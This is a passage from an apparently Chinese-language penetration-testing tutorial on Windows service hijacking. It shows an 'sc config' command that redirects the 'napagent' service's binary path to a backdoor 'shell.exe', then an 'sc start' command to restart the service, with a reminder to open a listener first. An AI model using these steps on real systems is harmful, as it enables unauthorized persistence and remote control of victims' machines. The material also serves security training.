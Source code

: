![image-20230329134540967](assets/ypWICX2Oat846iU.png)

## 5.3. 修改服务路径指向

这里通过修改服务路径的指向来执行后门木马程序的路径。

```
sc config "napagent" binpath="C:Users\Public\Downloads\shell.exe"
```

![image-20230329135001013](assets/vZyMGCqTbBNfRI2.png)

## 5.4. 重启服务

注意这里设置完后，需要开启监听哦，然后重启服务，但是在实际的环境中是需要管理员对服务进行重启，需要等待的。

```
sc start napagent
```

![image-20230329135441150](assets/Nx8ow4qV5mYKScu.png)
